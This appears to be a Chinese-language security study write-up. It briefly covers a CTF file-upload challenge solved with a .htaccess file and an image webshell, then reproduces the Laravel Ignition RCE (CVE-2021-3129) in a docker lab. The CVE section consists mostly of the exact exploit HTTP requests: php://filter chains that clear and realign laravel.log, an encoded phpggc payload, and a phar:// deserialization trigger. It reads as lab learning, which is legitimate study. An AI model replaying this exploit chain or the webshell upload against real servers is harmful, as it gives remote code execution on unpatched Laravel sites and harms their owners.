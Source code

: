 # 2024-2-14

## 1

![1](images/1.png)

首先打开网址能看出来是文件上传类漏洞

![2](images/2.png)

随便上传个图片发现上传成功，所以我们可以上传图片来进行攻击![3](images/3.png)

我们上传一个htaccess文件，来使php文件能够被执行

![5](images/5.png)

然后上传我们的图片马，并修改文件类型即可

![6](images/6.png)

最后使用蚁剑链接获得flag

## CVE-2021-3129

该漏洞是Laravel开发框架的一个漏洞，该开发框架是基于PHP实现的，但当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file_get_contents()和file_put_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。

**漏洞范围**

- Laravel < 8.4.3
- facade ignition < 2.5.2

![7](images/7.png)

git clone https://github.com/SNCKER/CVE-2021-3129下载靶场

(2)使用docker-compose搭建环境

![8](images/8.png)

![9](images/9.png)

![10](images/10.png)

使用 phpggc工具生成一条laravel中存在的反序列化利用POC

![12](images/12.png)

(2)发送如下数据包，将Laravel的原日志文件laravel.log清空：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 328

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
![13](images/13.png)

(3)发送如下数据包，给Log增加一次前缀，用于对齐：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 163

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "AA"
  }
}

![14](images/14.png)

(4)将之前生成的编码后的POC作为viewFile的值，发送数据包：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 5058

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=......2B=00=57=00=61=00=63=00=4E=00=67=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00a"
  }
}
![15](images/15.png)

(5)发送如下数据包，清空对log文件中的干扰字符，只留下POC：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 299

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
![在这里插入图片描述](images/16.png)



(6) 使用phar://进行反序列化，执行任意代码：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 210

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "phar:///var/www/storage/logs/laravel.log/test.txt"
  }
}
![17](images/17.png)

看到phpinfo漏洞利用成功